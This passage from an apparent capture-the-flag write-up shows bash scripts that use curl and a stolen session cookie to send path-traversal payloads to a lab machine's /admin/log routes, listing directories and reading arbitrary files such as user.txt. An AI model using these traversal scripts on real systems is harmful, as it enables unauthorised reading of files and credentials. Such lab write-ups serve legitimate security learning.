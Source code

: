 ### Listing and reading files

We can make use of the traversal vulnerability in `/admin/log/dir` and `/admin/log/view` routes to list and read files respectively, by expanding on the output from `get_cookie.sh`.

#### List files

<div class="filename"><span>dir.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.195
PORT=80
DIR=$1

curl -s \
     -b $(./get_cookie.sh) \
     -d "logdir=../../../../..${DIR}/." \
     http://$HOST:$PORT/admin/log/dir \
| tr ',' '\n' \
| tr -d " []'" \
| sort
```

{% include image.html image_alt="6ce4b05c.png" image_src="/d6c24de1-704b-4907-af66-242191337928/6ce4b05c.png" %}

#### Read files

<div class="filename"><span>read.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.195
PORT=80
FILE=$1

curl -s \
     -b $(./get_cookie.sh) \
     -d "logfile=../../../../..${FILE}" \
     http://$HOST:$PORT/admin/log/view
```

{% include image.html image_alt="48a75be8.png" image_src="/d6c24de1-704b-4907-af66-242191337928/48a75be8.png" %}

### Getting `user.txt`

While we are at it, we can list `user`'s home directory like so.

{% include image.html image_alt="34165bdb.png" image_src="/d6c24de1-704b-4907-af66-242191337928/34165bdb.png" %}

What's even more amazing is that we have the permissions to read `user.txt`!

